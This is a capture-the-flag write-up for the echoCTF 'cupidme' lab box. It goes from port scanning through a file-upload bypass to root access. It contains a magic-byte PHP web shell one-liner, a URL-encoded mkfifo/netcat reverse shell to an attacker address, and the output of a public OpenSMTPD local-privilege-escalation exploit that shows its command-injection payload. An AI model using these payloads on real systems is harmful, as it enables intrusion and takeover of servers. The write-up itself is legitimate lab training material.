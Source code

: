 ```yaml
---
layout: post
title: cupidme 
feature-img: "assets/img/portfolio/cupidme.png"
img: "assets/img/portfolio/cupidme.png"
date: 06 Jun 2021
tags: [Lorem, Ipsum]
---
```




[CVE-2019-14813](https://echoctf.red/target/33)

![](assets/img//cupidme.png)

TEE HEE HEE! Cupid, is an imaginary character. However, Cupid is not the only thing that is imaginary on this system (the box security is equally imaginary)...

Tickle cupid the right way and you'll be surprised.

---

### Enumartion



nmap -sC -sV -p- 10.0.40.0

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-03 02:20 EDT
Nmap scan report for 10.0.30.187
Host is up (0.080s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to Cupid's homepage

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.75 seconds
```
### Enumartion - WEB

TEE HEE HEE!
Hello! this is Cupid-Me and <b> this is the page where I upload my awesome pictures</b> for everyone to admire...
What can I say, lenses love me.

but where is the upload form?  

checking the source code and i found this:

<b><!--<form action="upload.php" method="post" enctype="multipart/form-data"> Select image to upload:<br/><input type="file" name="image" id="image"><input type="submit" value="Upload Image" name="submit"></form>--> </b>

unmarked it, and i got the upload form:


![](assets/img//upload_cupid.png)


### RCE

we can upload files, but its impossiable to this check by hand, so  i used burp for trying upload files.

and then i faced new problem :

```
    [0] => Mimetype not allowed, please upload an image/jpeg file.
    [1] => The maximum file size supported is 39 bytes
```
how to bypass it? 

i have sucees to minimize the file size, but still facing th mimtype.

after some reading about bypass php restrication, i found file signatures.


[magic_byte](https://en.wikipedia.org/wiki/List_of_file_signature)

```
echo '\xff\xd8<?=`{$_GET["cmd"]}`;' > exec.php

$ file shell.php
shell.php: JPEG image data

 ```



after uploading the file i got - 

```
Success. file uploaded at images/shell.php
```

let try to get RCE:

http://10.0.40.0/images/shell.php?cmd=id 

��uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Get Shell 

http://10.0.40.0/images/exec.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.0.10%204444%20%3E%2Ftmp%2Ff

*url encode 

and i got shell as www-data

www-data@cupidme:~/html/images$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data

### Privilege escalation
```
www-data@cupidme:~/html/images$ ss -ant
ss -ant
State        Recv-Q   Send-Q     Local Address:Port        Peer Address:Port    
LISTEN       0        128           127.0.0.11:36769            0.0.0.0:*       
LISTEN       0        128            127.0.0.1:9001             0.0.0.0:*       
LISTEN       0        128              0.0.0.0:80               0.0.0.0:*       
LISTEN       0        5              127.0.0.1:25               0.0.0.0:*       
TIME-WAIT    0        0              127.0.0.1:49074          127.0.0.1:80      
CLOSE-WAIT   9        0              127.0.0.1:9001           127.0.0.1:41482   
TIME-WAIT    0        0              127.0.0.1:9001           127.0.0.1:41504   
ESTAB        0        8              10.0.40.0:59836         10.10.0.10:4444    
TIME-WAIT    0        0              127.0.0.1:41506          127.0.0.1:9001    
FIN-WAIT-2   0        0              10.0.40.0:80            10.10.0.10:51002   
www-data@cupidme:~/html/images$ ps -aux | grep root
ps -aux | grep root
root         1  0.0  0.0   3736  2836 pts/0    Ss+  11:17   0:00 /bin/bash /entrypoint.sh tail -f /var/log/nginx/error.log /var/log/nginx/access.log
root        17  0.0  0.2  80020 10036 ?        Ss   11:17   0:00 php-fpm: master process (/usr/local/etc/php-fpm.conf)
root        28  0.0  0.0   5512  2072 ?        Ss   11:17   0:00 /usr/sbin/cron
root        60  0.0  0.0  69736  1728 ?        Ss   11:17   0:00 nginx: master process /usr/sbin/nginx
root        81  0.0  0.0  12324  3180 ?        Ss   11:17   0:00 /usr/local/sbin/smtpd
root        83  0.0  0.0   2328   752 pts/0    S+   11:17   0:00 tail -f /var/log/nginx/error.log /var/log/nginx/access.log
www-data  2522  0.0  0.0   3084   828 ?        S    13:16   0:00 grep root
www-data@cupidme:~/html/images$ 

```

i noticed for port 25 in listen state, so i checked it:
<b>220 cupidme.echocity-f.com ESMTP OpenSMTPD</b>

searching for online exploit, and found this one  [OpenSMTPD3](https://www.exploit-db.com/exploits/48051)

lets try it:

 perl raptor_opensmtpd.pl LPE
 
 and we goot root - 
 
 
perl raptor_opensmtpd.pl LPE
raptor_opensmtpd.pl - LPE and RCE in OpenBSD's OpenSMTPD
Copyright (c) 2020 Marco Ivaldi <raptor@0xdeadbeef.info>

< 220 cupidme.echocity-f.com ESMTP OpenSMTPD
> HELO fnord
< 250 cupidme.echocity-f.com Hello fnord [127.0.0.1], pleased to meet you
> MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
< 250 2.0.0 Ok
> RCPT TO:<root>
< 250 2.1.5 Destination address valid: Recipient ok
> DATA
< 354 Enter mail, end with "." on a line by itself
< 250 2.0.0 59a219f1 Message accepted for delivery

Payload sent, please wait 5 seconds...
-rwsrwxrwx 1 root root 16712 Jun  6 09:18 /usr/local/bin/pwned
#


#
#

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
whoami
root

